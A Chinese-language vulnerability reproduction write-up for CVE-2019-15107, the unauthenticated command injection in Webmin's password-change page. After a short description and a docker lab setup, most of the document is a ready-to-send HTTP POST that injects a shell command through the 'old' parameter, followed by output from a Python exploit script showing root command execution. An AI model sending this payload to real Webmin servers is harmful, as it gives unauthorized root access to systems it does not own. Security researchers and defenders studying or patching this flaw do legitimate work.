 （CVE-2019-15107）Webmin 远程命令执行漏洞
=========================================

一、漏洞简介
------------

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

二、漏洞影响
------------

Webmin \<= 1.920

三、复现过程
------------

### 环境搭建

执行如下命令，启动webmin 1.910：

    docker-compose up -d

执行完成后，访问[https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。](https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。)

### 复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是user=root），才会进入到修改/etc/shadow的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令id：

    POST /password_change.cgi HTTP/1.1
    Host: 0-sec.org:10000
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Cookie: redirect=1; testing=1; sid=x; sessiontest=1
    Referer: https://your-ip:10000/session_login.cgi
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 60

    user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2

![](resource/(CVE-2019-15107)Webmin远程命令执行漏洞/media/rId27.png)

### python usage:

python CVE\_2019\_15107.py <https://0-sec.org:10000> cmd

    C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

     _______           _______       _______  _______  __     _____       __    _______  __    _______  ______
    (  ____ \|\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ \/  \  (  __   )/ ___      | (    \/| )   ( || (    \/     \/   )  || (  )  |\/) ) ( (   ) )    \/) ) | (    \/\/) ) | (  )  |\/   )  )
    | |      | |   | || (__             /   )| | /   |  | | ( (___) |      | | | (____    | | | | /   |    /  /
    | |      ( (   ) )|  __)          _/   / | (/ /) |  | |  \____  |      | | (_____ \   | | | (/ /) |   /  /
    | |       \ \_/ / | (            /   _/  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /
    | (____/\  \   /  | (____/\     (   (__/\|  (__) |__) (_/\____) )    __) (_/\____) )__) (_|  (__) | /  /
    (_______/   \_/   (_______/_____\_______/(_______)\____/\______/_____\____/\______/ \____/(_______) \_/
                              (_____)                              (_____)
                                         python By jas502n



    vuln_url= https://0-sec.org:10000/password_change.cgi

    Command Result = uid=0(root) gid=0(root) groups=0(root)

四、参考链接
------------

> <https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html>
> <https://www.exploit-db.com/exploits/47230>
> <https://blog.firosolutions.com/exploits/webmin/>
